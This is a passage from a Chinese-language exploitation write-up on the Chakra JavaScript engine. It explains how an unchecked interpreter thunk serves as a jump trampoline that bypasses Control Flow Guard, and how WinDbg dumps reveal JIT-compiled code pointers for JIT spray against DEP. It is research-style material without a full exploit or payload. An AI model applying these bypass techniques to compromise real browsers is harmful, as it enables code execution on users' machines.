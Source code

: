 这个函数的指针可以通过CFG检查，同时，这个函数在jmp ecx之前，并没有对ecx的指针其进行CFG检查。所以，这个入口函数实际上相当于一个可以跳往任意地址的跳板。下面我们姑且将其称作“cfgJumper”。

0x05 定位JIT内存和“cfgJumper”
========================

* * *

要利用JIT Spray绕过DEP和利用“cfgJumper”绕过CFG，就需要定位JIT编译后的代码和“cfgJumper”，有趣的是，找到它们的方法几乎是相同的。

在JavaScript中所写的任何一个函数，都对应一个Js::ScriptFunction对象。每个Js::ScriptFunction对象又包含着一个Js::FunctionBody对象。Js::FunctionBody对象中保存着调用这个JavaScript函数时实际会执行的内存指针。

如果一个函数未被调用过，那么它的Js::FunctionBody中存放的实际内存指针是Js::InterpreterStackFrame::DelayDynamicInterpreterThunk：

```
0:002> dc 0b89de70 l 8
0b89de70  6ff72808 0b89de40 00000000 00000000  .(.o@...........
0b89de80  70523168 0b8d0000 7041f35c 00000000  h1Rp....\.Ap....
0:002> dc 0b8d0000 l 8
0b8d0000  6ff6c970 70181720 00000001 00000000  p..o ..p........
0b8d0010  0b8d0000 000001b8 072cc7e0 0b418ea0  ..........,...A.
0:002> u 70181720 l 1
Chakra!Js::InterpreterStackFrame::DelayDynamicInterpreterThunk:
70181720 55              push    ebp

```

如果一个函数被调用过，但没有被编译为JIT代码，仍然是解释执行，那么它的Js::FunctionBody中存放的实际内存指针是“cfgJumper”：

```
0:002> dc 0b89de70 l 8
0b89de70  6ff72808 0b89de40 00000000 00000000  .(.o@...........
0b89de80  70523168 0b8d0000 7041f35c 00000000  h1Rp....\.Ap....
0:002> dc 0b8d0000 l 8
0b8d0000  6ff6c970 00860000 00000001 00000000  p..o............
0b8d0010  0b8d0000 000001b8 072cc7e0 0b418ea0  ..........,...A.
0:002> u 00860000
00860000 55          push  ebp
00860001 8bec        mov   ebp,esp
00860003 8b4508      mov   eax,dword ptr [ebp+8]
00860006 8b4014      mov   eax,dword ptr [eax+14h]
00860009 8b4840      mov   ecx,dword ptr [eax+40h]
0086000c 8d4508      lea   eax,[ebp+8]
0086000f 50          push  eax
00860010 b800240870  mov   70082400h ; Chakra!Js::InterpreterStackFrame::InterpreterThunk

```

如果一个函数被循环调用多次，导致Chakra引擎将其编译为JIT代码，那么它的Js::FunctionBody中存放的实际内存指针就是该函数编译后的JIT代码指针：

```
0:002> d 0b89de70 l8
0b89de70  6ff72808 0b89de40 00000000 00000000  .(.o@...........
0b89de80  70523168 0b8d0000 7041f35c 00000000  h1Rp....\.Ap....
0:002> d 0b8d0000 l8
0b8d0000  6ff6c970 00950000 00000001 00000000  p..o............
0b8d0010  0b8d0000 000001b8 072cc7e0 0b418ea0  ..........,...A.
0:002> u 00950000
00950000 55              push    ebp
00950001 8bec            mov     ebp,esp
00950003 81fc44c9120b    cmp     esp,0B12C944h
00950009 7f18            jg      00950023
0095000b 6a00            push    0
0095000d 6a00            push    0
0095000f 68e0c72c07      push    72CC7E0h
00950014 6844090000      push    944h

```
